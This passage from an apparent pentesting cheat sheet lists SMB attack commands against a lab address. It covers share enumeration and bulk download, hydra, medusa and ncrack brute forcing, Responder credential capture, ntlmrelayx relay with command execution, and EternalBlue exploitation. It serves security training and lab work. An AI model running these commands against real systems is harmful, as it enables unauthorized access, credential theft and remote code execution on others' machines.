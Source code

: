 | `getdompwinfo` | Get domain password information |
| `createdomuser username` | Create domain user |
| `deletedomuser username` | Delete domain user |

### SMB Share Analysis

| Command | Description |
|---------|-------------|
| `smbclient //10.10.10.40/sharename -c "recurse;ls"` | Recursive directory listing |
| `smbget -R smb://10.10.10.40/sharename/` | Download entire share |
| `smbget smb://10.10.10.40/sharename/file.txt` | Download specific file |
| `findsmb` | Find SMB servers on network |
| `nmblookup -A 10.10.10.40` | NetBIOS name lookup |

## SMB Authentication Attacks

### Password Attacks

| Command | Description |
|---------|-------------|
| `hydra -l username -P passwords.txt smb://10.10.10.40` | SMB password brute force |
| `medusa -h 10.10.10.40 -u username -P passwords.txt -M smbnt` | Medusa SMB brute force |
| `ncrack -vv --user username -P passwords.txt 10.10.10.40:445` | Ncrack SMB brute force |

### SMB Relay Attacks

| Command | Description |
|---------|-------------|
| `responder -I eth0 -rdw` | Run Responder for credential capture |
| `ntlmrelayx.py -tf targets.txt -smb2support` | SMB relay attack |
| `ntlmrelayx.py -t 10.10.10.40 -c "whoami"` | SMB relay with command execution |

## SMB Exploitation

### EternalBlue (MS17-010)

| Command | Description |
|---------|-------------|
| `use exploit/windows/smb/ms17_010_eternalblue` | Metasploit EternalBlue |
| `use exploit/windows/smb/ms17_010_psexec` | EternalBlue PSExec |
| `python eternalblue_exploit.py 10.10.10.40` | Manual EternalBlue exploit |
